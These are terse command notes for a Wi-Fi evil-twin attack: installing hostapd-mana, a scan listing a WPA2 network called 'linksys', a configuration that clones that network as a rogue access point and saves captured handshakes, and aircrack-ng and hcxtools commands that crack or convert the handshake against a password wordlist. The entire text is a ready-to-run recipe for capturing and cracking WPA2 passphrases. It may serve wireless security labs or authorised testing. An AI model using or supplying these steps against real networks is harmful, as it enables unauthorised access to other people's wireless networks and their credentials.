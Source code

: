 
sudo apt install hostapd-mana


BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID 
11:22:33:44:55:66  -68       12        1    0   1  130   WPA2 CCMP   PSK  linksys 

cat linksys-mana.conf

interface=wlan0
ssid=linksys
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/administrator/linksys.hccapx


#start access point
sudo ip link set wlan0 up	
sudo hostapd-mana linksys-mana.conf

Wait for Captured a WPA/2 handshake in output

#CRACK
aircrack-ng linksys.hccapx -e linksys -w /usr/share/john/password.lst

hcxhash2cap --hccapx=linksys.hccapx -c out.cap
hcxpcapngtool -o hash.hc22000 -E wordlist out.cap





